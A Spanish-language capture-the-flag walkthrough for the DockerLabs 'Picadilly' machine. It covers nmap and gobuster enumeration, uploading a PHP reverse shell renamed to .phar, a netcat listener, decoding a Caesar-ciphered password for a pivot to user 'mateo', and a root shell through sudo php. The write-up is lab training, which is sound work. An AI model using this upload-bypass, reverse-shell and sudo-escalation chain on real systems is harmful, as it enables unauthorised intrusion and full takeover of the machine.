


**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `FileUpload` `PHP` `Gobuster` `Cryptography` `Sudoers`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip picadilly.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh picadilly.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80,443 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 20:13 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
|_http-server-header: Apache/2.4.59 (Debian)
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Picadilly
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: picadilly.lab

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.56 seconds
```

Identificamos los puertos `80` y `443` abiertos.

Accedemos al puerto `443` (HTTPS) y nos encontramos con la siguiente web.


Vemos que abajo hay un `panel de subida` de archivos, lo cual representa un posible vector de ataque.

## GOBUSTER

Antes de nada, hacemos fuzzing para descubrir directorios ocultos.

```Bash
gobuster dir -u https://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh,asp,aspx -b 403,404 -t 60 -k -r
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,bak,sh,asp,aspx,html,zip,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3476]
/uploads              (Status: 200) [Size: 1141]
/uploads.php          (Status: 200) [Size: 3476]
Progress: 20807 / 1985022 (1.05%)
```

Vemos que existe un directorio `/uploads`, que presumiblemente contiene los archivos subidos a través del panel.

## EXPLOTACIÓN

Vamos a intentar subir una `reverse shell` en `PHP` de `Pentestmonkey`. 

Para evitar posibles restricciones sobre la extensión `.php`, renombramos el archivo con la extensión `.phar`.

Lo subimos y no parece dar ningún error. Navegamos al directorio `/uploads` y confirmamos que nuestra `revshell` está subida.



Ponemos un `listener` en nuestra máquina atacante.

```Bash
sudo nc -nlvp 4444
```

Ejecutamos el archivo desde el navegador y recibimos la conexión.

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 44330
Linux c6c23dd6cde9 6.17.10+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.17.10-1kali1 (2025-12-08) x86_64 GNU/Linux
 19:16:37 up 52 min,  0 user,  load average: 1.26, 1.19, 1.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Recibimos la `shell` como usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## MOVIMIENTO LATERAL

Enumerando el sistema, en la ruta `/var/www/picadilly/` encontramos un archivo llamado `backup.txt`.

```Bash
cat backup.txt
```

Info:
```
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```

El archivo nos indica que hay un usuario llamado `mateo` y que su contraseña es `hdvbfuadcb`, pero está cifrada. 

El mensaje hace referencia a un antiguo emperador romano, lo que nos sugiere claramente un `Cifrado César`.

Vamos a ver qué combinaciones posibles hay para la cadena `hdvbfuadcb`.



Si nos fijamos en los resultados, una de las primeras opciones es `easycrazy`. Parece muy probable, ya que las otras combinaciones no forman ninguna palabra legible.

Probamos a pivotar al usuario `mateo` con esa contraseña.

```Bash
su mateo
# password: easycrazy
```

```
mateo@c6c23dd6cde9:/var/www/picadilly$ whoami
mateo
mateo@c6c23dd6cde9:/var/www/picadilly$
```

Efectivamente, logramos acceder.

## ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos los permisos `sudo`.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for mateo on c6c23dd6cde9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mateo may run the following commands on c6c23dd6cde9:
    (ALL) NOPASSWD: /usr/bin/php
```

Observamos que podemos ejecutar el binario `php` con privilegios de `root` sin necesidad de contraseña. Aprovechamos esto para generar una shell como root.

```Bash
sudo /usr/bin/php -r 'system("/bin/sh -i");'
```

Info:
```
# whoami
root
#
```

Ya somos root!

